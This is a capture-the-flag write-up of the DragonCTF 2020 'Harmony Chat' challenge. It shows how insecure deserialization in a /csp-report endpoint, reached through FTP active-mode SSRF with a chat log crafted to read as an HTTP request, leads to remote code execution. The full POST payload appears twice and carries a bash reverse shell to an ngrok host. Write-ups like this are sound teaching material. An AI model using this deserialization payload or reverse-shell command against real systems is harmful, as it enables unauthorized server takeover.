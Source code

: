 ```yaml
---
layout: post
title: "[DragonCTF 2020] Harmony Chat"
author: Vie
---
```


# TL;DR
1. RCE is achievable via insecure deserialization on ``/csp-report`` endpoint
2. Make a chatlog that looks exactly like a POST request to said endpoint, with a reverse-shell payload in it 
3. Use FTP on active mode to send chatlog to the application's HTTP server
4. reverse-shell. Profit. 


# Harmony Chat
If I told you that the simple act of exchanging messages in a chat app would lead to RCE and opening a reverse-shell, you'd think I went crazy. So why don't we discuss my descent into madness?

**Harmony Chat** was the first web challenge released on DragonCTF 2020. It was a chat app a la Discord, with the ability to register a new user, create a new channel, and invite other users to your channel.

![ImTalkingToMyself](/assets/images/dragonctf2020_harmonychat/harmonychatlogexample.png) 

You exchange messages just as any other chat app, and afterwards you can request for a log containing all the chat messages in that particular channel via HTTP or FTP. 

Requesting for the chatlog via HTTP also fires another POST request to the endpoint ``/csp-report`` which would deliver a report to the server if the chat logs had anything that violated said Content-Security-Policy. The source was provided for us so we could see how that whole interaction plays out locally. 

Requesting for the chatlog via FTP will prompt the application's FTP server to establish a data connection with you and send a file over that contained all your messages in the channel. 

```
vie: hello
vie: hi
vie: how are u today
```


Let's dive into that ``csp-report`` a bit more. It turns out that insecure-deserialization is possible via the application's use of the npm library ``javascript-serializer``. We could leverage how the serializer parses input to achieve RCE (Thanks to Robert Xiao for helping me get a payload that works :P):

![FTPCommunication](/assets/images/dragonctf2020_harmonychat/harmonyconsolelog.png) 

So RCE is achievable through a POST request to ``/csp-report``. We can use this knowledge to have the application deserialize a command to open a reverse-shell for us. One caveat though: 

```js
const isLocal = (req) => {
  const ip = req.connection.remoteAddress
  return ip === "127.0.0.1" || ip === "::1" || ip === "::ffff:127.0.0.1"
}
```
The ``isLocal`` check occurs with every request sent to ``/csp-report`` - checking if the remote IP of the request was in the LAN. We obviously didn't have to worry about this check when we were hitting this endpoint _locally_, but on DragonCTF's server, we would fail this check. So what do we do? 

Let's take a look at the FTP server, which is intended to be used to send text file versions of the chat log to the user. Since the FTP connection stipulates to us the port we should connect to, the server is operating in "passive" mode FTP. Well, what's that? 

Turns out, FTP has 2 specific modes.

- Passive: where the server tells us where to connect to establish a data connection to.

- Active: where we the clients stipulate the IP and port for the server to connect and open a data connection. 

This can solve our ``isLocal`` problem: if we get their FTP server on their LAN to work in **active mode**, and establish a connection to the HTTP server also on their LAN, then we can make that POST request to ``/csp-report`` through the FTP server. This would bypass the ``isLocal`` check since it's their FTP server making that request, on our behalf. AKA - A powerful SSRF attack. 

Now, another problem: the FTP server only ever stores files of chatlogs, and it doesn't have write access, so our POST request is gonna have to be in the form of a chat log. Well, how do we do that? 

Observe how the chatlog file looks: it has the format ``DisplayName``:``message``. The ``:`` is added by the application. This is where I had the idea: if we registered "users" all with different names that matched the request header names and the request body name, we could have those users then communicate the rest of their values as "messages" - and when finished, the resulting chat log should look exactly like the POST request we want to send. 

NOTE: I did this manually. I know there's a way to automate this. I was up for over 24 hours solving this challenge. My brain was mush.

So, we just need to break our POST request by the first ``:``

```
POST /csp-report?: HTTP/1.1
Host: localhost:3380
Content-Length: 386
Content-Type: application/csp-report

{"csp-report": {"blocked-uri": "x", "document-uri": "X", "effective-directive": "X", "original-policy": "X", "referrer": "X", "status-code": "X", "violated-directive": "X", "source-file": {"toString": {"___js-to-json-class___": "Function", "json": "process.mainModule.require(\"child_process\").exec(\"bash -c 'bash -i >& /dev/tcp/4.tcp.ngrok.io/18843 0>&1'\", {stdio:\"inherit\"})"}}}}
```

And we get 5 "users": ``POST /csp-report?``, ``Host``, ``Content-Length``, ``Content-Type`` and ``{"csp-report"``. They will then each message the chat in order as so... 

![ThisShouldBeAutomated](/assets/images/dragonctf2020_harmonychat/chatlogsPOST.png) 


Do you see where I'm getting at with this? Now we need to download the associated chat log file, and we get:

```
POST /csp-report?: HTTP/1.1
Host: localhost:3380
Content-Length: 386
Content-Type: application/csp-report

{"csp-report": {"blocked-uri": "x", "document-uri": "X", "effective-directive": "X", "original-policy": "X", "referrer": "X", "status-code": "X", "violated-directive": "X", "source-file": {"toString": {"___js-to-json-class___": "Function", "json": "process.mainModule.require(\"child_process\").exec(\"bash -c 'bash -i >& /dev/tcp/4.tcp.ngrok.io/18843 0>&1'\", {stdio:\"inherit\"})"}}}}
```

EXACTLY the post request that we want (With a quick sidenote - the newline generated to seperate the request headers from the request body was achieved by sending an empty message to the channel via the console. Again, this was probably easier to do in a script). So now all that's left to do is to connect to the FTP server externally, and tell it to connect to the HTTP server in its LAN, then send over the file we just made above. 

![FTPCommunication](/assets/images/dragonctf2020_harmonychat/ftpcommunication.png) 

- The ``user`` command is expecting a uid of any user in the current session. We technically made 5, so any of their uids work.

- The ``pass`` command can be blank, as the implementation of the application said any password will be accepted. 

- The ``port`` command is what makes the FTP server operate in active mode. The command's arguments are the 4 bytes of the IP, then the 2 remaining values are the port number following this convention: p1, p2 where ``(p1 * 256) + p2`` = full port number. We want to connect to Harmony Chat's localhost at the HTTP server, which is at port 3380. 

- The ``retr`` command takes the name of a file (in this case, the name of the chatlog) and retrieves it, then sends it over the data connection it just established. If we got things right, then the FTP server would have sent our POST request to the HTTP server.

And when we check back in our ngrok instance, we see that we have indeed achieved a shell on harmony-chat-app's server :)

![HarmonyShell](/assets/images/dragonctf2020_harmonychat/harmonyshell.png) 